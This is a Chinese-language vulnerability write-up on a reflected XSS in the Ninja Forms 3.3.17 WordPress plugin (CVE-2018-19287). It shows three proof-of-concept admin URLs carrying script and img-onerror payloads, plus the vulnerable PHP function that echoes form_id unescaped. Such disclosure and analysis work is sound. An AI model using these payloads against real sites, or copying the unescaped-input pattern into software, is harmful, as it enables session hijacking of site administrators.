 （CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS
===========================================================

一、漏洞简介
------------

Ninja
Forms是WordPress的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用Ninja
Forms作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

二、漏洞影响
------------

三、复现过程
------------

下面是我从exploit-db上复制的POC，为了方便判断，修改了弹窗的内容。

    http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><img+src=mtk+onerror=alert(/POC1/);//&filter_action=Filter&paged=1&action2=-1
    http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date="><img+src=mtk+onerror=alert(/POC2/);//&end_date&filter_action=Filter&paged=1&action2=-1
    http://0-sec.org/wp-admin/edit.php?post_status=trash&post_type=nf_sub&form_id=1"><script>alert(/POC3/);</script>&nf_form_filter&paged=1

我们只要直接复制POC到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个POC的图：

![](resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId24.png)

下图是触发第二个POC的图：

![](resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId25.png)

下图是触发第三个POC的图：

![](resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId26.png)

### 漏洞分析过程

笔者直接从POC方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了POC3的成因。

通过POC查找关键词nf\_sub，确定了核心文件\\wp-content\\plugins\\ninja-forms\\includes\\Admin\\Menus\\Submissions.php。

下图是Submissions.php部分内容：

![](resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId28.png)

通过粗略的阅读，发现这个函数是导致POC3成功弹窗的关键。

下图是Submissions.php文件第71-104行内容：

    public function change_views( $views )

    {

        // Remove our unused views.

        unset( $views[ 'mine' ] );

        unset( $views[ 'publish' ] );

        // If the Form ID is not empty...

        if( ! empty( $_GET[ 'form_id' ] ) ) {

            // ...populate the rest of the query string.

            $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';

        } else {

            // ...otherwise send in an empty string.

            $form_id = '';

        }

        // Build our new views.

        $views[ 'all' ] = '<a href="' . admin_url( 'edit.php?post_status=all&post_type=nf_sub'  ) . $form_id . '">'

                        . __( 'Completed', 'ninja-forms' ) . '</a>';

        $views[ 'trash' ] = '<a href="' . admin_url( 'edit.php?post_status=trash&post_type=nf_sub' ) . $form_id . '">'

                            . __( 'Trashed', 'ninja-forms' ) . '</a>';

        // Checks to make sure we have a post status.

        if( ! empty( $_GET[ 'post_status' ] ) ) {

            // Depending on the domain set the value to plain text.

            if ( 'all' == $_GET[ 'post_status' ] ) {

                $views[ 'all' ] = __( 'Completed', 'ninja-forms' );

            } else if ( 'trash' == $_GET[ 'post_status' ] ) {

                $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );

            }

        }

        return $views;

    }

从上面代码，我们可以看到，form\_id并没有被过滤，导致XSS存在。

    $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';

四、参考链接
------------

> <https://www.exploit-db.com/exploits/45880/>
>
> <https://www.freebuf.com/vuls/190411.html>
